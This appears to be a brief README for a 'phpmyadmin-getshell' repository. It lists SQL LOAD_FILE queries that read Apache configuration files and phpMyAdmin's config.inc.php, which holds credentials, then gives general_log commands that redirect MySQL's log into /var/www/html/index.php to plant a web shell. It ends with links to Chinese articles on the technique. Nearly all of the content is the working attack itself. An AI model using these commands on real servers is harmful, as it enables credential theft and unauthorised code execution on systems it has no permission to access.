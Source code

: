 phpmyadmin-getshell
===========================

phpmyadmin-getshell


Tips
-----------------

select load_file('/var/www/html/index.html')
select load_file('/etc/apache2/apache2.conf')
select load_file('/etc/phpmyadmin/config.inc.php')
select load_file('/usr/share/phpmyadmin/index.php')
SELECT LOAD_FILE( '/usr/share/phpmyadmin/phpinfo.php' )
SELECT LOAD_FILE( '/etc/apache2/sites-enabled/000-default.conf' )
SELECT LOAD_FILE( '/etc/apache2/sites-available/000-default.conf' )
SELECT LOAD_FILE( '/etc/apache2/conf-available/serve-cgi-bin.conf' )

set global general_log = "ON";
set global general_log_file='/var/www/html/index.php';



phpmyadmin getshell姿势
-----------------

`phpmyadmin getshell姿势`_


.. _phpmyadmin getshell姿势: https://xz.aliyun.com/t/3283


Ubuntu 14.04 Web服务器--Apache的安装和配置
-----------------

`Ubuntu 14.04 Web服务器--Apache的安装和配置`_


.. _Ubuntu 14.04 Web服务器--Apache的安装和配置: https://jingyan.baidu.com/article/6d704a130c8a0d28da51ca5f.html


